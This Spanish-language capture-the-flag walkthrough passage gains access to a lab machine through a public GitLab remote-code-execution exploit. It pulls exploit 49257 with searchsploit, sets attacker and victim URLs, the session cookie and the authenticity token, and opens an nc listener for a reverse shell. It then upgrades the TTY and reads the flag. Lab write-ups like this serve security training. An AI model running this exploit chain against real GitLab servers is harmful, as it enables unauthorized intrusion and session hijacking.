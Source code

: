 ## Vuln exploit & Gaining Access {-}

### Ganando accesso con Gitlab {-}

```bash
searchsploit -m 49257
mv 49257.py gitlab_rce.py
vi gitlab_rce.py
```

Mirando el codigo, vemos que este exploit nos permiteria entablar una reverse shell. Modificamos los datos

- url de la maquina victima
- url de la maquina de atacante
- puerto de escucha
- usuario gitlab
- authenticity_token
- cookie de session.

El valor del authenticity token se puede encontrar en el codigo fuente de la pagina de gitlab.
El valor del cookie de session se puede ver en la pagina de gitlab dandole a `Ctrl+Shift+c > Almacenamiento` y podemos ver el `_gitlab_session`

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Lanzamos el script con el commando `python3 gitlab_rce.py`


```bash
whoami
#Output
git
```

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

Podemos ir al directorio `/home/dude` y visualizar la flag
